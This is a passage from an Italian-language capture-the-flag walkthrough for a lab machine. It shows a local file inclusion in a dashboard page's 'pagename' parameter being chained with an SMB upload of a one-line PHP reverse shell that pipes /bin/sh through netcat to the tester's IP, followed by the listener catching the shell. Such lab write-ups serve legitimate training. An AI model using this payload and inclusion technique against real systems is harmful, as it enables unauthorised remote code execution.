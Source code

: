 ```bash
  .                                   D        0  Wed Jun  7 06:48:20 2023
  ..                                  D        0  Tue Sep 13 10:56:24 2022
  test.php                            A       31  Wed Jun  7 06:48:20 2023

                3545824 blocks of size 1024. 1648732 blocks available
smb: \> 

```

navighiamo alla pagina, https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/test
>abbiamo sostituito il paramentro pageneme= con il percorso del file test

![[1*pDOjwlUQ3_JF_xKFEre1ug.webp]]

Funziona !! non ci resta che creare un revshell in php metterci in ascolto con nc e dovremmo esserci 

Revshell.php
```bash
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.42 4444 >/tmp/f"); ?>
```

La carichiamo sulla condivisione 

```bash
smb: \> put revers.php 
putting file revers.php as \revers.php (0.8 kb/s) (average 0.5 kb/s)
smb: \> dir
  .                                   D        0  Wed Jun  7 06:58:13 2023
  ..                                  D        0  Tue Sep 13 10:56:24 2022
  revers.php                          A      100  Wed Jun  7 06:58:14 2023
  test.php                            A       31  Wed Jun  7 06:48:20 2023

                3545824 blocks of size 1024. 1648728 blocks available
```

Ci mettiamo in ascolto con nc

```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lnvp 4444    
listening on [any] 4444 ...
```

Visitiamo la pagina 
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/revers
> Ricordiamoci di non mettere il .php dopo revers

Otteniamo cosi la nostra shell

```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lnvp 4444    
listening on [any] 4444 ...
connect to [10.10.14.42] from (UNKNOWN) [10.10.10.123] 48286
/bin/sh: 0: can't access tty; job control turned off

```
